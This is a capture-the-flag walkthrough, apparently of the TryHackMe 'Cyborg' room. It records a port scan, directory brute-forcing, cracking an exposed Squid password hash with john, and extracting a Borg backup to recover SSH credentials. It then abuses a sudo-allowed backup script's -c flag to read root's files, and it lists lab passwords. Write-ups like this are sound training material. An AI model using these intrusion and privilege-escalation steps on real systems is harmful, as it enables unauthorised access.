 # Link
- https://tryhackme.com/room/cyborgt8

# Info
## IP = $IP

## creds
- music_archive:squidward
- alex:S3cretP@s3

# Ports

## Port Scanning

```
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
2008/tcp filtered conf
3128/tcp closed squid-http
```

## 80

### `gobuster`

```
/admin                (Status: 301) [Size: 314] [--> http://$IP/admin/]                                                                         
/etc                  (Status: 301) [Size: 312] [--> http://$IP/etc/]                                                                           
/index.html           (Status: 200) [Size: 11321]
```

### _/admin_

### _/etc_

- /squid/passwd
- /squid/squid.conf

### john
```
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Cyborg]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
squidward        (music_archive) 
```

### _tar_  the file gotten in the site

### checking _README_ file

```
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

### using _borg_ to get the alex home directory

```
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Cyborg]
└─$ borg extract ~/Desktop/CTFs/tryhackme/Cyborg/home/field/dev/final_archive::music_archive

Enter passphrase for key /home/kali/Desktop/CTFs/tryhackme/Cyborg/home/field/dev/final_archive:
```

### checking _Documents_ folder, the credentials appear

## 22

### using _alex_ creds


# PrivEsc

### checking _user.txt_

- `flag{XXXX}`

### `sudo -l`

```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

### the file has the following part:

```
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```

### so, if I use the parameter _-c_, I can execute any command as root:

```
alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh  -c "cat /root/root.txt"
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
$IP{XXXX}
```



